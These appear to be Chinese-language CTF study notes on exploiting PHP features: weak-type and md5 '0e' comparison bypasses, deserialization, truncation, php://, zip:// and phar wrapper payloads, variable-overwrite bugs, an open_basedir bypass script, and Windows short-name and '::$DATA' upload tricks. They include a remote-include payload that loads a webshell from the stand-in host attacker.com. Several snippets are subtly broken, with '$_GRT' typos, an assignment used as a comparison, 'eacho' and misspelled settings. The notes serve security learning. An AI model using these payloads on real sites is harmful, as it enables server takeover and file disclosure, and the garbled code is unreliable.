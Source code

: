 ## 特性利用
#特性利用
### 1. PHP语言特性
#PHP特性
#### 1.1 弱类型
```php
''==0==false
'123'==123
'abc'==0
'123a'==123
'0x01'=1
'0e123456789'=='0e987654321'
[false]==[0]==[NULL]==['']
NULL==false==0
true==1
```
\=\=和\=\=\=均可比较两个值是否相等，前者会在值不变的基础上对其进行类型转换
```php
if($_GRT['a']!=$_GET['b'] && md5($_GRT['a'])=md5($_GRT['b'])){
	echo $flag;
}
```
可以通过~~[md5碰撞](https://goo.gl/KV5ZQn)~~来解决，MD5返回字符串，若以0e开头则会被识别为科学计数法表示的数字0`aabg7XSs`和`aabC9RqS`满足条件
```php
if($_GRT['a']!=$_GET['b'] && md5($_GRT['a'])===md5($_GRT['b'])){
	echo $flag;
}
```
可以提交`a[]=1&b[]=2`MD5在的参数为数组时会报错并返回NULL成功绕过
容易出现判断错误的还有很多，如strpos
```php
if(strpos(str1,str2)==false){//当str1中不包含str2时
	...;
}
```
当str1在str2开头时函数返回值是0，而0\=\=false，成功绕过
### 1.2 反序列化漏洞
#反序列化 
[[../language/PHP/魔术方法|魔术方法]]：`__construct__`（对象创建时调用）、`__destruct__`（PHP脚本结束时调用）、`__toString__`（对象被当作string使用时调用）、`__sleep`、`__weakup`
如果代码复杂，使用了大量的类，往往需要构造ROP链来进行利用，参考[phithon对joomla漏洞的分析](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
### 1.3 截断
1. NULL字符截断（%00，~~过长~~）
2. 不正确的使用iconv函数
```php
<?php
	$file = $_GET['file'].'.tpl.html';
	include(iconv("UTF-8","gb2312",$file))
?>
```
在file中遇到非法的UTF8字符时iconv会截断，UTF8中单个”\\x80-\\xff“都非法。这个漏洞只在windows系统中存在，在新版PHP中已经得到了修复
### 1.4 [[../language/PHP/流|伪协议]]
如果在php.ini的设置中让`allow_url_include=1`，即允许远程包含时可以令参数为
`?file=http://attacker.com/shell.jpg`
如果我们能上传自定义图片的话，可以将webshell改名为shell.php并压缩成zip上传，然后再利用zip协议包含
`?file=zip://uploads/random.jpg%23shell.php`
**phar协议也有类似效果**
还可以通过伪协议读取到部分文件，如果服务器上有一个index.php
`php://filter/convert.base64-encode/resource=index.php`
得到index.php经过base64编码后的字符串
### 1.5 变量覆盖
#### 1.5.1 函数使用不当
1.[[../language/PHP/function&class/extract| extract函数]]
```php
<?php
	$auth = false;
	extract($_GET);
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
extract函数将GET传入的数据转换为变量名和变量的值
`?auth=1`
2. [[../language/PHP/function&class/parse_str|parse_str]]
```php
<?php
	$auth = false;
	parse_str($_SERVER['QUERY_STRING']);
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
3. [[../language/PHP/function&class/import_request_variables|import_request_variables]]
```php
<?php
	$auth = false;
	import_request_variables('G');
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
#### 1.5.2 配置不当
PHP版本<5.4，register_globals=ON时会导致全局变量覆盖漏洞
```php
<?php
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
用户传入auth即可进入语句块，如果在if前初始化了auth则不会触发
#### 1.5.3 代码逻辑漏洞
PHP中的可变变量\$\$可以让一个普通变量的值作为这个可变变量的变量名
新版本PHP移除了register_globals和import_request_variables，有些开发者选择foreach遍历数组注册变量，可能会发生变量覆盖漏洞
```php
<?php
	$auth = false;
	foreach($_GET as $key => $value){
		$$key = $value;
	}
	if($auth){
		echo "flag"
	}
	else{
		echo "Access Denied.";
	}
?>
```
利用同上
#### 1.6 防护绕过
常用防护手段open_badedir和diaable_function
- open_basedir是PHP设置中为防御PHP跨目录进行文件目录读写的方法，所有PHP中有关文件读写的函数都会经过其检查
常见绕过方法DirectoryIterator+Glob
```php
<?php
printf('<b>open_basedir:%s</b><br />',ini_get('open_basedir'));
$fiel_list = array();
//normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
//special files (starting with a dot)
$it = new DirectoryIterator("glob:///*");
foreach($it as $f){
	$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
	eacho "{$f}<br />"
}
?>
```
- disable_function绕过方式很灵活，依赖于系统层面的漏洞，利用shellshock、imagemagick等组件的漏洞进行绕过操作，或以来系统环境，利用环境变量LD_PRELOAD等漏洞进行绕过。若权限足够还可以尝试使用PHP调用数据库UDF的方法来执行命令
### 2. windows系统特性
#### 2.1 短文件名
IIS6环境下[IIS短文件名扫描工具](https://github.com/lijiejie/IIS_shortname_Scanner)
windows下的Apache环境里除了能爆破服务器文件，还能通过段文件直接下载长文件
”discuz的备份文件泄露“就是利用windows的短文件名去猜解，极大减少了枚举量
#### 2.2 文件上传
通过追加高位字符\[\\x80-\\xff\]进行截断，等效的还有`::$data`，利用`:$DATA Alternate Data Stream`，参考OWASP
**冒号很特殊，上传时将后缀改为`.php:.png`形式，在系统中最后得到的是0字节的php后缀文件，起到了截断效果，但没能成功写入内容。**